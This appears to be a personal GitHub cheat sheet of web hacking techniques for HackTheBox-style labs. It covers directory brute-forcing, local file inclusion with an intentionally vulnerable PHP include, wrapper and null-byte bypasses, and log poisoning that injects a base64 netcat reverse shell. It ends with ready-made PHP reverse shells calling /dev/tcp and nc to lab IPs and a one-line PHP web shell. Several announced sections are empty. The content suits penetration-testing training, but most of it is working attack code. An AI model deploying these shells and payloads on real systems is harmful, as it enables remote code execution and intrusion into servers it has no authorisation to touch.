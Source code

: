 # Web hacking labs

This is a compilation of the web hacking techniques I could recopilate trying separate it in each category or from what hackthebox machine I was able to get it!

Hope you enjoy!

Generic process:
```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -u http://10.10.10.88 -o gobuster/port80root.txt

feroxbuster -u http://10.10.10.88 -x php -B -n
```


The different attacks we're going to deploy here and define a methodology are:
- Local File Inclusion
- Wrappers
- Log Poisoning
- Remote File Inclusion
- HTML Injection
- Cross-Site Scripting (XSS)
- Blind Cross-Site Scripting (XSS Blind)?
- Cross-Site Request Forgery (CSRF)
- Server-Side Request Forgery (SSRF)
- SQLi - Error based
- SQLi - Time based
- Padding Oracle Attack (Padbuster)
- Padding Oracle Attack (Bit Flipper Attack with Burpsuite)
- ShellShock
- XML External Entity Injection (XXE)
- Blind XXE
- Domain Zone Transfer
- Insecure Deserialization
- Type Juggling


-----------------------

Other I plan to add:
- IDOR
- Magic Numbers
- IDN homographic attack



## Local File Inclusion
**PoC**
```bash
#run apache service
sudo service apache2 start
#check the port 80 busy
lsof -i:80

#Create a php app
cd /var/www/html
nano example.php
```
```text
<?php
	$filename = $_GET['file']; # ?file=example.php
	include($filename);# to include a particular path include("/var/www/html/" . $filename), but you can bypass with ../../../.....
?>
```


Right now you can exploit the LFI in your local machine with: `localhost/example.php?file=/etc/passwd`

What can we do exploit with this?:
- Enum users (/etc/passwd)
- Extract ssh keys (~/.ssh/id_rsa)
- Log Poisoning
- Enumerate /proc/ information
	- Enumerate process and IP interfaces (/proc/sched_debug)
	- Enumerate IP interfaces (/proc/net/fib_trie)
	- Enumerate open ports (/proc/net/tcp)
	```
	for port in $(curl -s "http://localhost/example.php?file=/proc/net/tcp" | awk '{print $2}' | grep -v local_address | awk '{print $2}' FS=":" | sort -u); do echo "[$port] -> Puerto $(echo "ibase=16; $port" | bc)"; done
	```
	And if you can't use bc other way to conver hexadecimal to decimal in bash is:
	```
	for port in $(cat /proc/net/tcp | awk '{print $2}' | grep -v local_address | awk '{print $2}' FS=":" | sort -u); do echo "[$port] -> Puerto $(printf $port=%d\n)" $((16#$port)); done
	```
#### Bypassing restriction for LFI
[Still not developed]
**Null Byte injection**
Code example:
```php
<?php
	$filename = $_GET['file'];
	include("/var/www/html" . $filename ".randomextension");
?>
```
You could avoid the extension reading adding a null byte injectio
../../../../etc/passwd%00

**PHP Wrappers**
You can try bypass some LFI restirctions using the Wrappers:&
- `http://localhost/example.php?file=file://../../../../etc/passwd`
- `http://localhost/example.php?file=php://filter/convert.base64-encode/resource=/../../../../etc/passwd`
- 


## Log Poisoning
To convert a LFI in RCE we can use the logs files:
```
#check the apache logs
http://localhost/example.php?file=/var/log/apache2/access.log
#ssh login tries
http://localhost/example.php?file=/var/log/auth.log
##to exploit this you can try to use a reverse shell command as a user but code it in base64
echo "nc -e /bin/bash ip_kali 443" | base64
>bmMgLWUgL2Jpbi9iYXNoIGlwX2thbGkgNDQzCg==
###login in the ssh service
ssh '<?php system("echo bmMgLWUgL2Jpbi9iYXNoIGlwX2thbGkgNDQzCg== | base64 -d | bash"); ?>'
```
We can modify the user-agent to execute php code when we access it using the LFI vulenrability
```
curl -s -H "User-Agent: <?php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
```

## Remote File Inclusion - RFI
You can create a malicious php in your local machine and make the remote server download and execute this file.
To exploit this and get a reverse shell you need three tabs opened and execute in the next order:
```

```


--------------------------------------
## CMR
#### Wordpress
If you detect and wordpress site first thing you should do is locate plugins in that:
```
wpscan -u http://10.10.10.88/webservice/wp/ --enumerate p,t,u | tee wpscan.log

##with wfuzz
###locate *plugin* -> /opt/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt
wfuzz -c -hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```



--------------------------------------
# Anex A
PHP functions to execute with php:
- system
- exec
- passthru
- shell_exec


https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/

## basic php reverse shells
```
<?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/4321 0>&1'");
?>

<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'");
?>

<?php
        system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4321 >/tmp/f');
?> 

<?php
    echo "<pre>" . shell.exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4321 >/tmp/f') . "</pre>";
?>
```

## Basic php web-shell
```
<?php
	system($_REQUEST['cmd']);
?>


```
